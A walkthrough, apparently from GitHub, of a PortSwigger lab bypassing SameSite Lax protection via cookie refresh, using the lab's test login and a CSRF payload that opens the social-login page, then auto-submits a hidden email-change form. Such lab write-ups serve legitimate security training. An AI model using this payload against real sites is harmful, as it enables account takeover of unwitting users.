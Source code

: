 ## Welcome, my friend. Today we will start the [10. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-lax-restrictions-with-newly-issued-cookies/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh#) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/1cf2045a-8220-4a55-9107-9813e4f6339e)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/940296c3-b5d9-4dad-a038-661fe86d91e1)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/bb9032af-bd0a-4f0a-8970-281fd947e24c)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/996c62f5-df3a-44a7-bc0a-57d200be5757)






### Now, Go to exploit server and paste this code:


```
<form method="POST" action="https://0ab00087036bd6fc8010a81e004800a9.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="aboayman@gmail.com">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0ab00087036bd6fc8010a81e004800a9.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
```

![image](https://github.com/user-attachments/assets/0bac3c9a-c492-4b41-8494-4f3dedc89072)

-------
